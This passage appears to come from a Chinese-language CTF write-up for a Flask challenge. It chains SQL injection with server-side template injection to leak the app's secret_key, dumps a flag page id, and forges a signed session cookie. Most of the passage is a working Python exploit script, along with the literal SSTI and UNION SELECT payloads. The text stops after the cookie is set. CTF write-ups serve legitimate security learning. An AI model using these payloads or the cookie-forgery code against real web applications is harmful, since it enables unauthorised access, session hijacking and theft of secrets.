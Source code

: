 這邊還有 `SSTI` 的漏洞

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/a61b6ac4-0832-4066-be55-877c9acf7630)

因此思路會是：
1. 用 SQLi 生成一個帶有 SSTI payload 的模板並生成文章
2. 利用這個文章的 SSTI 把 session 的 `secret_key` leak 出來
3. 用 SQLi 生成一個模板，裡面有 flag page id 的資料
4. 用 leak 出來 的 `secret_key` 修改 session
5. 讀取 flag page

於是構建出 SSTI payload `field.__init__.__globals__[http]._dt_as_utc.__globals__[sys].modules[flask].current_app.secret_key`

然後搭配 SQLi 得到這個 payload ` union SELECT 0 as id, 'ans' as title, '{field.__init__.__globals__[http]._dt_as_utc.__globals__[sys].modules[flask].current_app.secret_key}' as template`

還有 dump flag page id 的 SQLi payload ` union SELECT id, id as title, id as template from copypasta where orig_id=3`

#### exploit
```python
import requests
import sys
import urllib.parse
import hashlib
from bs4 import BeautifulSoup
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import *

session = requests.session()

sqli = " union SELECT 0 as id, 'ans' as title, '{field.__init__.__globals__[http]._dt_as_utc.__globals__[sys].modules[flask].current_app.secret_key}' as template"

session.get(f'{sys.argv[1]}')
data = session.post(f'{sys.argv[1]}/use?id=0{urllib.parse.quote(sqli, safe="")}', params={'a': 'a'}).text

secret_key = BeautifulSoup(data, "html.parser").article.get_text()
print(f'secret_key: {secret_key}')

sqli = " union SELECT id, id as title, id as template from copypasta where orig_id=3"
data = session.get(f'{sys.argv[1]}/use?id=0{urllib.parse.quote(sqli, safe="")}').text

flagid = BeautifulSoup(data, "html.parser").pre.get_text()
print(f'flagid: {flagid}')

for a in session.cookies:
    if a.name == 'session':
        nowsession = a
        break

serializer = URLSafeTimedSerializer(secret_key=secret_key,
                  salt='cookie-session',
                  serializer=TaggedJSONSerializer(),
                  signer_kwargs={
                      'key_derivation': 'hmac',
                      'digest_method': hashlib.sha1,
                  })

sessiondata = serializer.loads(nowsession.value)
sessiondata['posts'].append(flagid)
session.cookies.set(nowsession.name, serializer.dumps(sessiondata), domain=nowsession.domain, path=nowsession.path)
```
